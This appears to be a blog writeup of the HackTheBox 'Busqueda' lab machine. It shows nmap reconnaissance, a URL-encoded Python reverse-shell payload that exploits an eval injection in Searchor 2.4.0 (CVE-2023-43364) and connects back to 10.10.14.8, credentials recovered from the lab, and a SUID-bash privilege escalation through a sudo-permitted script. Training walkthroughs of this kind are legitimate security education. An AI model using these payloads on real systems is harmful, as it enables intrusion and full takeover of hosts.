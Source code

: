 ```yaml
---
title: "Busqueda - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Busqueda
![](https://kar0nx.github.io/assets/images/writeup/a6942ab57b6a79f71240420442027334.png)
## Reconnaissance

IP: 10.10.11.208
## NMAP

```
nmap -T4 -p- -A 10.10.11.208
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 07:42 UTC
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   30.10 ms 10.10.14.1
2   30.75 ms searcher.htb (10.10.11.208)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.75 seconds

```

## Website
### Site

add to /etc/hosts

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901094315.png)

after typing something, we go answer ( looks like we can command injection)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901094640.png)

## Gaining Access

Searching google with version Searchor 2.4.0 I found exploit 
https://nvd.nist.gov/vuln/detail/cve-2023-43364
PoC: https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-
In detail we can see (main.py in Searchor before 2.4.2 uses eval on CLI input, which may cause unexpected code execution.) Using Poc I manage to get reverse shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901100811.png)

```
engine=Github&query=',+exec("import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(('10.10.14.8',80))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(['/bin/sh','-i'])%3b"))%23
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901104917.png)

and we got rev shell now grab first flag
## Privilege escalation

I ran linpeas and found that there is 2 more subdomains

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901104833.png)

gitea.search.htb

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901105347.png)

This is Git panel so .git must be on target maching start by checking logs `git log` but first we need to add save path to system

```
git config --global --add safe.directory /var/www/app
git log
git config -l
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901110420.png)

and we see something like user:pass let's try login to git panel (didn't find anything usefull). Then I tried to login via ssh with valid users (svc, root) and this password:
cody:jh1usoih2bkjaspwe92

Now we have password for svc and can check sudo -l

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901110806.png)

```
sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .NetworkSettings.Networks}}' mysql_db | jq .
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901121518.png)

```
mysql -h 172.19.0.3 -u gitea -pyuiu1hoiu4i5ho1uh gitea

select name,password from user;
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901121818.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901121735.png)

```
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/es\nchmod 4777 /tmp/es' > full-checkup.sh
chmod +x full-checkup.sh
sudo python3 /opt/scripts/system-checkup.py full-checkup
/tmp/es -p

```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250901122439.png)
